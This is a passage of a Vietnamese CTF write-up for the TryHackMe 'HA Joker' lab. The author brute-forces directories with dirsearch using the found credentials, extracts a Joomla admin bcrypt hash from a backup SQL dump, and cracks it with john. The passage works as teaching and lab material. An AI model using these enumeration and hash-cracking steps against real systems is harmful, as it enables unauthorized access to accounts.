 ![blog-joomla](/assets/img/2022-05-01-THM-HA-Joker-CTF/3.webp)

Thử truy cập vào *robots.txt* tôi tìm thấy các path hệ thống, 1 trong số đó là */administrator/*

Tuy nhiên muốn truy cập vào admin tôi cũng phải đăng nhập. Để tìm xem có gì thú vị ở path tôi sẽ sử dụng lại *dirsearch* với user password của *joker*

```python
┌──(kali㉿kali)-[~]
└─$ dirsearch -u 10.10.247.23:8080 --auth-type basic --auth joker:hannah -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -e txt,bak,zip,php 
...
[22:45:51] 200 -   12MB - /backup 
...
```

Tôi tìm thấy file *backup.zip*

Để giải nén thì cần phải có password và khi tôi thử password của *joker* là hannah thì được luôn. Bên trong backup tôi có file db và site backup.

Phân tích file sql này tôi tìm thấy super duper user 

```sql
INSERT INTO `cc1gr_users` VALUES (547,'Super Duper User','admin','admin@example.com','$2y$10$b43UqoH5UpXokj2y9e/8U.LD8T3jEQCuxG2oHzALoJaj9M5unOcbG',0,1,'2019-10-08 12:00:15','2019-10-25 15:20:02','0','{\"admin_style\":\"\",\"admin_language\":\"\",\"language\":\"\",\"editor\":\"\",\"helpsite\":\"\",\"timezone\":\"\"}','0000-00-00 00:00:00',0,'','',0);
```

Lưu đoạn hash này vào 1 file và dùng *john* để crack nó

```python
┌──(kali㉿kali)-[~/Downloads/site]
└─$ john hash.txt         
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
abcd1234         (?) 
```
